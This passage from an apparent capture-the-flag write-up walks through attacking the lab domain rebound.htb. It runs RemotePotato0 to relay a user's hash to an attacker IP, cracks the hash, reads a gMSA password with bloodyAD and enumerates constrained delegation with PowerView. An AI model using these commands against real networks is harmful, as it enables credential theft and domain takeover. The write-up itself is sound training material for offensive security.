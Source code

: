 Afterwards, simply run the binary on the machine:

```
.\RemotePotato0.exe -m 2 -s 1 -x 10.10.14.41 -p 9999
```

This would give us the hash of the `tbrady` user:

<figure><img src="../../.gitbook/assets/image (4212).png" alt=""><figcaption></figcaption></figure>

`john` can crack this hash to give the password of `tbrady`. Now that we have the password of `tbrady`, we can abuse the `ReadGMSAPassword` privileges given. Using `bloodyAD.py`, we can easily do this:

```
$ ./bloodyAD.py -u tbrady -d rebound.htb -p <PASS> --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```

The reason why `delegator$` is used is because we it has delegation privileges over the DC.

### Constrained Delegation --> Root

We must remember that `delegator$` is a machine account instead of a user account. We can re-confirm the constrained delegation misconfiguration using PowerView:

```
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> Get-NetComputer -TrustedToAuth


pwdlastset                     : 9/16/2023 2:04:28 AM
logoncount                     : 14
badpasswordtime                : 4/8/2023 9:22:25 AM
msds-managedpasswordpreviousid : {1, 0, 0, 0...}
distinguishedname              : CN=delegator,CN=Managed Service Accounts,DC=rebound,DC=htb
objectclass                    : {top, person, organizationalPerson, user...}
lastlogontimestamp             : 4/8/2023 11:12:56 AM
name                           : delegator
objectsid                      : S-1-5-21-4078382237-1492182817-2568127209-7687
msds-groupmsamembership        : {1, 0, 4, 128...}
localpolicyflags               : 0
codepage                       : 0
samaccounttype                 : MACHINE_ACCOUNT
accountexpires                 : NEVER
countrycode                    : 0
whenchanged                    : 9/16/2023 9:04:28 AM
instancetype                   : 4
usncreated                     : 69353
```